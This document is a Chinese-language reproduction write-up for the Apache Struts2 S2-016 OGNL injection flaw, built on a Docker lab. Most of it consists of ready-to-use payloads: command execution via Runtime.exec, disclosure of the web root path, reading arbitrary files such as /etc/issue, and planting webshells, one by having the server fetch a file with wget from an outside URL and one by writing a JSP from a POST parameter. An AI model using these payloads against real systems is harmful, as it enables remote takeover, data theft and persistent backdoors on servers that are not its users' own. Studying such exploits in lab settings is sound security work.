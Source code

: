 # S2-016

## 概述

在struts2中，DefaultActionMapper类支持以```"redirect:"、"redirectAction:"、"action:"```作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

## 环境搭建

	docker pull medicean/vulapps:s_struts2_s2-016
 	docker run -d -p 8082:8080 medicean/vulapps:s_struts2_s2-016


## 影响版本

2.0.0 - 2.3.15

## 复现

**不要忘记对OGNL表达式进行URL编码**

	http://ip:port/XXX.action?action:OGNL expression to execute an OGNL expression.

有时候报错，因为配置文件没有设置 action 映射。

![](2.png)

<br/>

![](3.png)

<br/>

![](1.png)

### poc

	${#a=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),#a.println("HACKER"),#a.close()}

![](10.png)

### 1.命令执行

payload1:

	redirect:${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}

这种载荷较简洁，此种方式的回显在location中：

![](5.png)

payload2:

	redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("id").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}

这种载荷较长，此种回显在响应体里：

burp 截图：

![](6.png)

wireshark 截图：

![](4.png)

### 2.Get web directory

	redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}

burp 截图：

![](7.png)

wireshark 截图：

![](8.png)


### 3.任意文件读取

	${#d=new java.io.FileReader('/etc/././issue'),#e=new java.io.BufferedReader(#d),#f=#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine()+#e.readLine(),#e.close(),#d.close(),#a=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#b=#a.getWriter(),#b.println(#f),#b.flush(),#b.close()}

view HTTP Stream:

![](11.png)

### 4.写webshell

1.wget 写shell：

	redirect:${#a=(new java.lang.ProcessBuilder(new java.lang.String[]{'wget','http://www.url.com/xx.txt','-O','/root/1.jsp'})).start().getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#lee=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter().println(#d),#lee.flush(),#lee.close()}

写入成功：

![](9.png)

[Struts2 S2-016/S2-017 命令执行带回显、看web路径、getshell exp整理](https://blog.csdn.net/god_7z1/article/details/9636847)

2.直接 get上传webshell

网上的poc均失败。

http://www.mamicode.com/info-detail-346593.html

3.post上传webshell

	redirect:${%23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%23resp%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23resp.getWriter().print(%22o%22),%23resp.getWriter().print(%22k%22),%23resp.getWriter().flush(),%23resp.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%22%2Fusr%2Flocal%2Ftomcat%2Fwebapps%2FROOT%2Fa.jsp%22)).append(%23req.getParameter(%22c%22)).close()}&c=Struts2%20Exploit%20Test

成功。

view HTTP Stream:

![](12.png)

![](13.png)

4.k8 tools 上传wshell

与 post上传webshell一致。


